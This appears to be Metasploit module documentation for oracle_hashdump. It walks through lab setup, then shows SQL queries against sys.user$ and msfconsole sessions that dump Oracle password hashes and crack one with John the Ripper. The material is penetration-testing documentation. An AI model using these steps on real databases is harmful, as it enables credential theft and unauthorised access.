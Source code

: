 ## Preparation: 6 steps

  1. Oracle DB XE (Express Edition) can be downloaded for free [here](https://www.oracle.com/technetwork/database/database-technologies/express-edition/downloads/index.html).
  2. Install Oracle Database and create a database. Versions 8i through 12c are supported.
  3. On your Oracle DB machine, make sure you can ping the DB server using the `tnsping [SID]` command. If `tnsping` is not in your path upon installation, you will have to locate it manually.
     * On a Windows machine, for Oracle 11g, `tnsping.exe` is located at: `oracle_install\app\oracle\product\<version, ie 11.2.0)\server\bin\tnsping.exe`.
     * On a Windows machine, for Oracle 12c and 18c, it is located at `%ORACLE_HOME%\bin\tnsping.exe`.

     After this command is run, if all is well, the output will look something like this (note the OK echoed at the end):

    ```
    C:> tnsping staticdb
    ...

    Used TNSNAMES adapter to resolve the alias
    Attempting to contact (DESCRIPTION = (ADDRESS = (PROTOCOL = TCP)(HOST = localhost)(PORT = 1521)) (CONNECT_DATA = (SERVER = DEDICATED) (SERVICE_NAME = staticdb)))
    OK (0 msec)
    ```

    If `tnsping` fails, make sure the listener is setup correctly.
    See [this Oracle doc](https://docs.oracle.com/cd/E11882_01/network.112/e41945/listenercfg.htm#NETAG294) for more information about its configuration.

  4. Make sure to create a user on the DB that has a known password, and sufficient privileges to select any table. This is necessary for getting the hashes.
  5. Test that the module's hash query works locally. Once your user is created with sufficient privileges, connect to the DB as the user, and proceed to run the following query
    * 12c: `SELECT name, spare4 FROM sys.user$ where password is not null and name <> \'ANONYMOUS\'`
    * pre-12c: `SELECT name, password FROM sys.user$ where password is not null and name<> \'ANONYMOUS\'`
  6. Set up your MSF environment to support Oracle. You need gem ruby-oci8, as well as Oracle Instant Client.
     [View the setup tutorial here](https://docs.metasploit.com/docs/using-metasploit/other/oracle-support/how-to-get-oracle-support-working-with-kali-linux.html)
  7. Make sure you have a database connected to MSF (postgresql). This can be done through `msfdb` tool or through `db_connect` command in `msfconsole`.

## Verification Steps

  1. Start `msfconsole`
  2. Do: ```use auxiliary/scanner/oracle/oracle_hashdump.rb```
  3. Do: ```run```
  4. If Oracle DB version is supported, the query will be attempted to get the hashes. Hash table is built and then saved as credentials.
  5. You may view saved credentials with `creds` command. These are used for cracking by module `jtr_oracle_fast`.

## Options

  **DBPASS**
  The password to authenticate with. Change this from TIGER to the password of the privileged user created in step 4 of Preparation.

  **DBUSER**
  The username to authenticate with. Change this from SCOTT to the user you created who is granted privileges to select from the sys.user$ table

  **RPORT**
  The TNS port of the Oracle DB server. By default, Oracle uses port 1521. Double-check the port of your Oracle DB.

  **SID**
  The Service ID (of the database) to authenticate with. Change this to your SID (if you changed the SID from default upon installation).
  Default is `ORCL` (default Oracle install value) or `XE` for free edition.

## Scenarios

### Running Oracle 12c on a local Windows 10 machine, and MSF5 on Ubuntu for Windows (same machine)

```
msf5 auxiliary(scanner/oracle/oracle_hashdump) > show options
Module options (auxiliary/scanner/oracle/oracle_hashdump):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   DBPASS   hunter2          yes       The password to authenticate with.
   DBUSER   scott            yes       The username to authenticate with.
   RHOST    127.0.0.1        yes       The Oracle host.
   RHOSTS   127.0.0.1        yes       The target address range or CIDR identifier
   RPORT    1522             yes       The TNS port.
   SID      staticdb         yes       The sid to authenticate with.
   THREADS  1                yes       The number of concurrent threads

msf5 auxiliary(scanner/oracle/oracle_hashdump) > run

[*] Server is running 12c
[*] Hash table :
 Oracle Server Hashes
====================

 Username               Hash
 --------               ----
 ...
 SCOTT                  S:BF6D4E3791075A348BA76EF533E38F7211513CCE2A3513EE3E3D4A5A4DE0;H:3814C74599475EB73043A1211742EE59;T:0911BAC55EEF63F0C1769E816355BE29492C9D01980DC36C95A86C9CE47F93790631DE3D9A60C90451CFF152E25D9E94F612A1493EC82AF8E3C4D0432B06BA4C2C693B932332BC14D2D66CEF098A4699
 ...

[+] Hash Table has been saved
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/oracle/oracle_hashdump) > creds
Credentials
===========

host       origin     service            public  private                                                                                                                                                                                                                                                               realm  private_type        JtR Format
----       ------     -------            ------  -------
...                                                                                                                                                                                                                                                         -----  ------------        ----------
127.0.0.1  127.0.0.1  1522/tcp (oracle)  SCOTT   S:BF6D4E3791075A348BA76EF533E38F7211513CCE2A3513EE3E3D4A5A4DE0;H:3814C74599475EB73043A1211742EE59;T:0911BAC55EEF63F0C1769E816355BE29492C9D01980DC36C95A86C9CE47F93790631DE3D9A60C90451CFF152E25D9E94F612A1493EC82AF8E3C4D0432B06BA4C2C693B932332BC14D2D66CEF098A4699         Nonreplayable hash  oracle12c
```

These hashes are then saved as credentials so that `jtr_oracle_fast` can crack them (using [John The Ripper "bleeding_jumbo"](https://github.com/magnumripper/JohnTheRipper)).

```
msf5 auxiliary(scanner/oracle/oracle_hashdump) > use auxiliary/analyze/jtr_oracle_fast
msf5 auxiliary(analyze/jtr_oracle_fast) > run
...
[*] Cracking oracle12c hashes in normal wordlist mode...
Using default input encoding: UTF-8
[*] Cracking oracle12c hashes in single mode...
Using default input encoding: UTF-8
[*] Cracked passwords this run:
[+] SCOTT:hunter2
...
```
### Oracle 18c (18.4 XE) on Windows 2012

```
resource (oracle.rb)> use auxiliary/scanner/oracle/oracle_hashdump
resource (oracle.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (oracle.rb)> set dbuser system
dbuser => system
resource (oracle.rb)> set dbpass oracle
dbpass => oracle
resource (oracle.rb)> set sid XE
sid => XE
resource (oracle.rb)> run
[-] Version 18c is not currently supported
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Oracle 11g (11.2 XE) on Windows 2012

```
resource (oracle.rb)> use auxiliary/scanner/oracle/oracle_hashdump
resource (oracle.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (oracle.rb)> set dbuser system
dbuser => system
resource (oracle.rb)> set dbpass oracle
dbpass => oracle
resource (oracle.rb)> set sid XE
sid => XE
msf5 auxiliary(scanner/oracle/oracle_hashdump) > set verbose true
verbose => true
msf5 auxiliary(scanner/oracle/oracle_hashdump) > run

[*] Server is running version 11g
[*] Hash table :
 Oracle Server Hashes
====================

 Username          Hash
 --------          ----
 APEX_040000       S:03D9B47D20C9A9EC3023177D80C0EE2D1DCEDA619215C2405177CEFFEE76
 APEX_PUBLIC_USER  S:E8D8CCD600CBCEA08ACB158A502C5DA711B00146404621BB2F83E8997246
 APPQOSSYS         S:4237CCB702887B049107EE6D13C312123F40E3F51208B2B70D6DA92E621D
 CTXSYS            S:3548FDA49F84F2F7ECE4635BA0FD714EC2446723074ED6167F1CD9B6EDFB
 DBSNMP            S:59354E99120C523F77232A8CCFDE5E780591FCE14109EEE2C86F4A9B4E8F
 DIP               S:1E4C37D0E8DC2E556D3C02A961ACEF1500B315D076BE13E578D1A28FC757
 FLOWS_FILES       S:A3657555975A9F7527C4B97637734D74465C592B9D231CA3DAB100ED5865
 HR                S:F437C1647EBCEB1D1FB4BB3D866953B4BF612B343944B899E061B361F31B
 MDSYS             S:F337C5D6300E3F8CDEDE0F2B2336415EAAE098A700A35E6731BF1370657E
 ORACLE_OCM        S:1575D1C89A1AACFE161ED788D2DC59CF6C57AE3B6CCC341D831AAF5BC447
 OUTLN             S:142AD444D8A63983FF69C77DBFD3E60947C14237AEC71031E24F5228D44C
 SYS               S:BFAF1ED5A8D39CC10D07DAF03A175C65198359874DAD92F081BE09B89162
 SYSTEM            S:D88BA08B353EC52E1EFD8433DF623773ACE3F81B7294BBC2E5C22CDD32F5
 XDB               S:88D6BE2B593143BD5AE5185C564826F9213E71361230D3360E36C3FF55D2
 XS$NULL           S:6C4F97FF654AE30BCD9BDBB3007EF952B5943F0A9ED491455E9FB185D8A1

[+] Hash Table has been saved
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```
